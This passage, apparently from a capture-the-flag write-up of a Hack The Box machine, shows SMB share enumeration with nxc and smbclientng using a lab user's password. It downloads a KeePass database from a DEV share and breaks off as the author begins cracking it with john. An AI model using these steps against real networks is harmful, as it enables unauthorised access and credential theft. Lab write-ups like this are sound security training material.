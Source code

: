 This group provides no further privileges for escalation.

# Finding keepass file in `DEV` share

SMB enumeration reveals that `levi.james` now has read access to the `DEV` share.

```bash
# nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --shares

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

I connect to the share, discover a file named `recovery.kdbx`, and download it.

```bash
# smbclientng -d puppy.htb -u levi.james -p 'KingofAkron2025!' -H DC.puppy.htb
               _          _ _            _
 ___ _ __ ___ | |__   ___| (_) ___ _ __ | |_      _ __   __ _
/ __| '_ ` _ \| '_ \ / __| | |/ _ \ '_ \| __|____| '_ \ / _` |
\__ \ | | | | | |_) | (__| | |  __/ | | | ||_____| | | | (_| |
|___/_| |_| |_|_.__/ \___|_|_|\___|_| |_|\__|    |_| |_|\__, |
    by @podalirius_                             v3.0.0  |___/

[+] Successfully authenticated to 'DC.puppy.htb' as 'puppy.htb\levi.james'!
■[\\DC.puppy.htb\]> use DEV
■[\\DC.puppy.htb\DEV\]> tree
├── Projects/
├── KeePassXC-2.7.9-Win64.msi
└── recovery.kdbx
■[\\DC.puppy.htb\DEV\]> get recovery.kdbx
'recovery.kdbx' ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.7/2.7 kB • ? • 0:00:00
```

# Cracking the kdbx file to discover new credentials.

This is a password protected keepass file.
I extract its hash and attempt to crack it with `john`.
